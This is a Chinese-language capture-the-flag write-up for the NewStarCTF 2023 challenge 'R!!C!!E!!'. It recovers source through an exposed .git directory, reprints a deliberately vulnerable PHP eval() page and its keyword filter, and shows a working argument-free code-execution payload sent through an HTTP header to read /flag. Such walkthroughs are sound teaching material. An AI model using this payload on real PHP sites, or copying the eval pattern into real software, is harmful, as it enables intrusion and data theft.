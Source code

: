 ```yaml
---
tags:
  - BuuCTF
  - RCE
  - GitHack
---
```


# \[NewStarCTF 2023\] R!!C!!E!!

## 前置工作

进入靶机网页，只有一句话

```
Welcome To NewstarCTF 2023,Nothing here,or you wanna to find some leaked information?
```

看 F12 也没有什么泄露的内容，那么就有可能是 Git 泄露，可以使用 GitHack 获得靶机网页 `.git` 目录下的内容

```
python GitHack.py http://91df782c-9931-4bf4-bf3f-1cb2907c7750.node4.buuoj.cn:81/.git
```

得到关键文件 `bo0g1pop.php`（在输入上面的命令之前，强烈建议关闭火绒，否则直接被杀了）

```php
<?php
highlight_file(__FILE__);
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {
    if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){
        eval($_GET['star']);
    }
}
```

## 代码审计

先看第一个 if

```
preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])
```

看不太懂，问问 ChatGPT

大意是匹配这样的字符串：`functionName(argument1, argument2, ...)`，然后 `replace()` 函数会把里面的参数全去掉，换句话说，这次的 RCE 是无参数的（比如使用 `echo("Hello")`，里面的 `"Hello"` 就会被去掉）

再来看第二个 if

```
!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])
```

这里甚至禁用掉了你能想到的扫盘方法

但我们可以换一个思路，既然不能有参数，还不能用以上的命令，那么我们可以尝试从别的地方读取参数

## 构思攻入方法

有一个函数 `getallheaders()` 恰好满足我的需求，比如我可以写一个 `hack: system("cat /flag")`，把他加入到 headers 里，后续将这个 `hack` 的值作为命令

但是 `getallheaders()` 取得的是数组，换句话说，我需要不依赖任何参数取得其中的值才行

但是这道题受限于无参数的 RCE，我们还需要再换一个思路

有一个函数叫 `array_rand()`，这个是随机取得一个数组中的键，注意是键，不是值，这就很容易让人联想到另一个函数了 `array_flip()`，这个函数的作用是使得数组内的键值调换，原来的值变成键，原来的键变成值

那我们就可以这么写 `star` 参数了

```
?star=eval(array_rand(array_flip(getallheaders())));
```

然后我们在 headers 中再写一个 `hack: system("cat /flag");`，准备碰运气

## 获取 Flag

最好使用 HackBar 完成这次的所有操作，因为 `array_rand()`，是随机的，我们只需要在 HackBar 上多按几次 EXECUTE 即可

![](https://z1.ax1x.com/2023/10/13/pipi5tS.png)

最后附上 Http 请求代码

```http
GET /bo0g1pop.php/?star=eval(array_rand(array_flip(getallheaders()))); HTTP/1.1
Hack: system("cat /flag");
```

得到 Flag 为 `flag{9bbd1239-1a20-43b3-9d2c-0c893ad1716f}`